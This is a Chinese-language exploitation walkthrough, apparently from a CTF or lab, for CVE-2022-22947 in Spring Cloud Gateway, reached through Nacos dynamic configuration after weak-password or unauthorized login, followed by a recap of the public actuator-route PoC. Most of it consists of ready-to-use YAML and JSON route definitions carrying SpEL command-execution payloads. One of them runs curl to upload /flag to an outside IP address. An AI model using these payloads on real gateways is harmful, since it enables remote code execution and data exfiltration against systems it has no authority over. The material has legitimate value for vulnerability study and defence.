





Spring Cloud Gateway曾出现CVE-2022-22947漏洞，该漏洞允许攻击者通过动态配置路由，路由响应头可以加入执行SpEL表达式注入漏洞，当攻击者可以访问Actuator API的情况下，将可以利用该漏洞执行任意命令。但实际情况可能有很多Spring Cloud Gateway存在漏洞，但未开放Actuator API，所以导致无法利用。但如果在资产收集时发现目标存在nacos，并且可用弱口令或者未授权漏洞创建用户登录进去的话，我们可以采用Nacos的动态配置特性结合Spring Cloud Gateway的RCE漏洞进行利用。
参考文章：<https://xz.aliyun.com/t/11493?time__1311=Cq0xRDnD070Q%3DGNPeeuAxfE1x9AB%3DDg7WoD>

利用nacos漏洞进入后台后，发现gateway配置文档，修改发布，进行spel注入命令执行。下面是yaml和json格式。
这里是给了个网关的jar，反编译查看到了基础的配置，根据配置添加nacos中配置文档，并发布。



```
spring:
  cloud:
    gateway:
      routes:
        - id: exam
          order: 0
          uri: lb://backendservice
          predicates:
            - Path=/echo/**
          filters:
            - name: AddResponseHeader
              args:
                name: result
                value: "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'id'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
```
```
{
    "spring": {
        "cloud": {
            "gateway": {
                "routes": [
                    {
                        "id": "whocansee",
                        "order": 0,
                        "uri": "lb://backendservice",
                        "predicates": [
                            "Path=/echo/**"
                        ],
                        "filters": [
                            {
                                "name": "AddResponseHeader",
                                "args": {
                                    "name": "result",
                                    "value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{'curl','http://1.92.88.247:2333','-T','/flag'}).getInputStream())).replaceAll('\n','').replaceAll('\r','')}"
                                }
                            }
                        ]
                    }
                ]
            }
        }
    }
}
```
predicates是路由匹配规则，uri是转发的地址，这里是backendservice服务名

此时访问网关的ip:18888/echo/11触发，查看响应头有命令回显结果。


^
^
## **CVE-2022-22947漏洞回顾**

该漏洞在网上公开POC的利用方式是通过`/actuator/gateway/routes`这个节点进行动态添加路由的，当项目配置文件中配置了以下两行配置时（YAML格式），便会开启该接口：

```
management.endpoint.gateway.enabled: true
management.endpoints.web.exposure.include: gateway
```

其中发送的添加路由的数据包中的数据段如下：

```
{
  "id": "test",
  "filters": [{
    "name": "AddResponseHeader",
    "args": {"name": "Result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream()))}"}
  }],
"uri": "http://example.com",
"order": 0
}
```

我们可以先理解一下这段POC的含义，其中id字段代表的是路由的ID标识，而filters则是Spring Cloud Gateway中路由配置的过滤器，这里指定了过滤器`AddResponseHeader`，含义为对匹配到的请求的响应包中添加一个自定义的Header，其中名称为 Result，值为该漏洞利用的SpEL表达式，执行了命令`id`，也就是说当一个请求匹配到该路由时，返回包中应该会存在一个Header返回了我们定义的键值，利用成功的话会得到：`result: uid=0(root) gid=0（省略...）`

但POC中并未定义路由的匹配规则，因为开启actuator/gateway的话只需要刷新一下路由然后直接查看路由配置就可以得到命令执行的回显了。为了验证，我修改了一下POC，将其添加一条路由规则如下：

```
{
    "id": "aaa",
    "order": 0,
    "predicates": [
      {
        "args": {
          "_genkey_0": "/test/**"
        },
        "name": "Path"
      }
    ],"filters": [
{
    "name": "AddResponseHeader",
    "args": {
"name":"result","value": "#{new java.lang.String(T(org.springframework.util.StreamUtils).copyToByteArray(T(java.lang.Runtime).getRuntime().exec(new String[]{\"id\"}).getInputStream())).replaceAll(\"\n\",\"\").replaceAll(\"\r\",\"\")}"}
  }],
    "uri": "http://example.com"
  }
```

发包添加成功：\


这条路由的含义就是增加了`predicates`来匹配请求的访问路径，当请求访问的路径匹配到了`/test/**`时，则触发该路由，然后再看到filters，跟之前的POC是一样的，最后再注意到`uri`参数，它的作用是当路由匹配到`/test/**`时，将其转发到`http://example.com`上，但注意这是个公网地址，在真实环境利用时应考虑到如果服务器不出网则可能造成路由转发失败。所以当我们访问了 [http://localhost:8080/test/时，路由会帮我们转发到。

接下来刷新一下路由，然后尝试访问一下/test路径看下效果：\


成功在响应包的头部增加了result字段，且值为我们希望的命令执行的结果。


